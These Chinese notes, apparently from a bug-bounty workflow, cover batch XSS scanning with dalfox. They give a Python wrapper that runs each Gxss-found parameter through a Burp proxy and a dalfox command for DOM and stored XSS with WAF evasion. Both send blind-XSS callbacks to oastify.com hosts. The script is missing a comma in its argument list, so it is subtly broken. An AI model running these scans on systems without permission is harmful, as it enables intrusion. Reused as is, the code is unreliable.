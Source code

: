 ### 一、批量跑RXSS

缺点：

1. 使用占位符{{.xss}}，指定payload位置，但是这个占位符号又会出现在请求中，它不会去掉，这些字符又可能是敏感字符，本来是可以通过Gxss结果 -> 把反射点改成 -> 占位符就行，然后批量跑txt
2. 可以通过-p指定参数，但是这样就需要额外的脚本，把Gxss的反射点的参数一个个提取出来，然后按照dalfox的一个个进行扫描
3. 默认会开很多种配置：
   1. 参数寻找：不需要因为到这里之前，都是在寻找参数
   2. headless：检测反射，不需要
4. 虽然可以指定UA，但是每一个跑的请求就很多，不能指定，每一个请求都改UA，那就代理BP，使用SwitchUA插件就行！
5. **----skip-discovery如果使用了那么一定要使用-p，因为不skip的意思是，url的所有参数都会跑**
6. --skip-mining-all 才是额外的参数发现
7. --skip-xss-scanning 是不进行xss测试

#### 脚本：

```py
import urllib.parse
import subprocess
import os
import time

# 输入输出文件路径
input_file = "gxss_result.txt"
output_file = "rxss_result.txt"

# 提取 URL 中包含特定值的参数名
def extract_param_name(url):
    parsed_url = urllib.parse.urlparse(url)
    query_params = urllib.parse.parse_qs(parsed_url.query)
    for param, values in query_params.items():
        if "wjch611" in values:
            return param
    return None

# 清空主输出文件
open(output_file, "w").close()

# 读取 URL 列表
with open(input_file, "r", encoding='utf-8') as f:
    urls = f.readlines()

# 获取总 URL 数量
total_urls = len(urls)

# 遍历每个 URL 进行处理
for index, url in enumerate(urls):
    url = url.strip()
    if not url:
        continue

    param_name = extract_param_name(url)
    if param_name:
        print(f"Processing URL ({index + 1}/{total_urls}): {url}")
        print(f"Parameter name: {param_name}")

        temp_output = "dalfox_tmp.txt"  # 临时文件路径

        # 构建并执行单个请求的 Dalfox 命令
        dalfox_cmd = [
            "dalfox",
            "url",
            url,
            "-p", param_name,
            "--only-poc", "r",               # 只显示 PoC
            "--proxy", "http://127.0.0.1:8080",  # 使用代理
            "--delay", "100",                 # 延时 10ms
            "-w", "30",                      # 设置并发数
            "--format", "plain",             # 输出格式为 plain
            "--no-color",                    # 禁用彩色输出
            "--skip-headless",               # 禁用 headless 浏览器扫描
            "--skip-mining-all",             # 跳过所有参数挖掘
            "--no-spinner",                  # 禁用进度动画
            "--output", temp_output          # 输出到临时文件
            "-b", "zpsmicqc875ce0yglo76xpkzkqqhe72w.oastify.com"
        ]

        try:
            # 执行 Dalfox 命令，获取进度输出
            result = subprocess.run(
                dalfox_cmd,
                text=True,
                encoding='utf-8',
                stdout=subprocess.PIPE,   # 获取标准输出
                stderr=subprocess.PIPE    # 获取错误输出
            )

            # 显示当前扫描的 URL 和命令执行的详细信息
            print(f"Command executed: {' '.join(dalfox_cmd)}")
            print(f"Dalfox Output: {result.stdout}")

            # 将临时文件内容追加到主输出文件
            if os.path.exists(temp_output):
                with open(temp_output, "r", encoding='utf-8') as temp, open(output_file, "a", encoding='utf-8') as out:
                    out.write(f"URL: {url}\n")
                    out.write(temp.read())
                    out.write("-" * 80 + "\n")
                os.remove(temp_output)

        except Exception as e:
            print(f"Error running dalfox for {url}: {e}")
    else:
        print(f"No injectable parameter found in: {url}")
```

### 二、批量跑DXSS\SXSS

```
dalfox file merged_results.txt --deep-domxss --skip-mining-all --force-headless-verification --proxy "http://127.0.0.1:8080" -w 30 --delay 100 -o "dxss_result.txt" -b "ttqyfntshs42l1m73fsyf6nxgomfa5yu.oastify.com" --waf-evasion
```

- --deep-domxss 只是加强dom，并不会忽略存储的检测

| 参数                                                | 说明                                                         |
| --------------------------------------------------- | ------------------------------------------------------------ |
| `file merged_results.txt`                           | 从文件中读取待测 URL（一般是带参数的 URL 列表）              |
| `--deep-domxss`                                     | 启用深度 DOM XSS 分析（用 headless 浏览器动态加载页面分析 JS sink） |
| `--skip-mining-all`                                 | 不进行参数挖掘（即不自动添加额外参数，只测试 URL 中已有参数） |
| `--force-headless-verification`                     | 使用 headless 浏览器验证反射点是否真实触发 XSS（提升准确率，避免误报） |
| `--proxy "http://127.0.0.1:8080"`                   | 使用本地代理转发流量（可接入 BurpSuite 抓包分析）            |
| `-w 30`                                             | 并发线程数为 30                                              |
| `--delay 100`                                       | 每个请求之间延迟 100 毫秒（减缓请求速率，降低被封 IP 风险）  |
| `-o "dxss_result.txt"`                              | 将结果输出保存到 `dxss_result.txt` 文件中                    |
| `-b "ttqyfntshs42l1m73fsyf6nxgomfa5yu.oastify.com"` | 设置 Blind XSS 的监听地址（如通过 `document.location` 触发时可接收回连） |
| `--waf-evasion`                                     | 尝试使用内置的 WAF 绕过 payload（如编码、混淆、payload 变种） |